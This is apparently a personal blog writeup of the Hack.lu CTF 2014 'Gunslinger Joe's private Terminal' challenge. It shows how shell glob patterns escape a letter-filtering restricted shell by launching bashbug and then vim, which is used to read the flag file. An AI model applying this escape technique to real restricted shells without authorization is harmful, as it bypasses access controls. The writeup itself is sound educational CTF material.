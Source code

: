 =============================================================
 Hack.lu CTF 2014: Gunslinger Joe’s private Terminal Writeup
=============================================================

:date: 2014-10-21 16:57
:modified: 2015-01-25 15:41
:tags: ctf, writeup, hacklu
:category: memo
:slug: gunslinger-joes-private-terminal-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: First time of my life I solved a problem in a real CTF! Though it is a pretty easy one, it means something to me.

Problem Description
===================

In the Hack.lu CTF website, there are some description about "Gunslinger Joe's
private Terminal":

.. code-block:: text

    Gunslinger Joe's private Terminal
    by cutz (Misc)
    50 (+20) Points
    Gunslinger Joe has a pretty bad memory and always forgets the password for his
    private terminals! That's why he always uses his username as password but also
    makes sure that absolutely no one else who knows his name can interact with his
    secure terminal. Wouldn't it be super embarrassing for him to prove him wrong?

    SSH: gunslinger_joe@wildwildweb.fluxfingers.net
    PORT: 1403

According to the description above, Gunslinger Joe's SSH account and password
are both "gunslinger_joe". So let's connect to the SSH server:

.. code-block:: bash

    $ ssh wildwildweb.fluxfingers.net -l gunslinger_joe -p 1403
    gunslinger_joe@wildwildweb.fluxfingers.net's password:

               ,'-',
              :-----:
          (''' , - , ''')
          \   ' .  , `  /
           \  '   ^  ? /
            \ `   -  ,'
             `j_ _,'       Gunslinger Joe's
        ,- -`\ \  /f        Private Terminal
      ,-      \_\/_/'-
     ,                 `,
     ,          Joe      ,
          /\          \
    |    /             \   ',
    ,   f  :           :`,  ,
    <...\  ,           : ,- '
    \,,,,\ ;           : j  '
     \    \            :/^^^^'
      \    \            ; ''':
        \   -,         -`.../
         '    - -,`,--`
          \_._'-- '---:

    $ ls
    $ whoami
    $ ls -l
    : -: command not found

Something weird have just happened... It seems that the shell filtered out all
the alphabetic characters. However, the "FLAG" showed up...

.. code-block:: bash

    $ *
    : ./FLAG: Permission denied

Apparently, the file FLAG does not have a attribute of execution so the shell
told us it cannot execute the file FLAG. Anyway, using asterisk could reveal
some useful information. Then try it under the root directory.

.. code-block:: bash

    $ /*
    : /bin: Is a directory

To conclude, with this kind of input (asterisk), the shell will want to execute
the very first file in the directory specified. So let's see what is the first
executable in the ``/bin``.

.. code-block:: bash

    $ /*/*

Oops! WTF! It seems that the file ``/bin/bashbug`` has been executed. And we
finally got an editor, which is ``vim``.

.. code-block:: text

    From: gunslinger_joe
    To: ../../bin/bunzip2
    Subject: [50 character or so descriptive subject here (for reference)]

    Configuration Information [Automatically generated, do not change]:
    Machine: x86_64
    OS: linux-gnu
    Compiler: gcc
    Compilation CFLAGS:  -DPROGRAM='bash' -DCONF_HOSTTYPE='x86_64' -DCONF
    OSTYPE='linux-gnu' -DCONF_MACHTYPE='x86_64-unknown-linux-gnu'
    -DCONF_VENDOR='unknown' -DLOCALEDIR='//share/locale' -DPACKAGE='bash'
    -DSHELL -DHAVE_CONFIG_H   -I.  -I. -I./include -I./lib   -g -O2
    uname output: Linux terminal 3.13.0-37-generic #64-Ubuntu SMP Mon Sep 22
    21:28:38 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
    Machine Type: x86_64-unknown-linux-gnu

    Bash Version: 4.3
    Patch Level: 30
    Release Status: release

    Description:
            [Detailed description of the problem, suggestion, or complaint.]

    Repeat-By:
            [Describe the sequence of events that causes the problem
            to occur.]

    Fix:
            [Description of how to fix the problem.  If you don't know a
            fix for the problem, don't include this section.]

Gods be good, we all know that anyone can execute any commands in ``vim`` using
``:! <command>``. So I tried ``:! cat FLAG``. But the system told me there was
no more resources to fork another process to do the work. Where there is a
will, there is a way. Using the tab page feature provided by ``vim`` could do
the work! Because ``vim`` will not spawn a new process to handle the new tab
page.

Flag
====

.. code-block:: text

    flag{joe_thought_youd_suck_at_bash}

